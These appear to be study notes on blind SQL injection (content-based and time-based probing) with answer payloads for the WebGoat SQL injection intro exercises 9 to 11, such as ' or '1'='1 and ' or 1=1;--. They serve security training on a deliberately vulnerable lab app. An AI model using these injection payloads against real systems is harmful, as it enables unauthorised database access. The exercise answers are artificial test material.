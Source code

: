 ### Blind SQL Injection

- Involves asking 'database true or false questions' when server provides only generic error responses.
- Types include: content-based and time-based injections
- Find out what type of DB as that can provide insight to available system tables

````yaml title="Content-based"
    https://shop.example.com/?article=4 and 1=1 # (1)!
````

1.  If no error is thrown, then this DB might be susceptible to SQL Injection

````javascript title="Time-based"
    ' or 1=1; sleep(10);-- // (1)!
````

1.  If there is 10 second delay then this DB might be susceptible

---

## Solutions Intro
---

### WebGoat SQL (Intro) - Solution for exercise 9:

A classic??

````
' or '1'='1
````

### WebGoat SQL (Intro) - Solution for exercise 10:

````title="Login_Count:"
1
````
````yaml title="User_id:"
1 or 1=1 # (1)!
````

1.  These fields expect numbers and therefore no quotes are necessary.

### WebGoat SQL (Intro) - Solution for exercise 11:

````title="Employee Name:"
' or 1=1;--
````

or

````title="Employee Name:"
Blah
````
````title="Authentication TAN:"
' or '1'='1
````

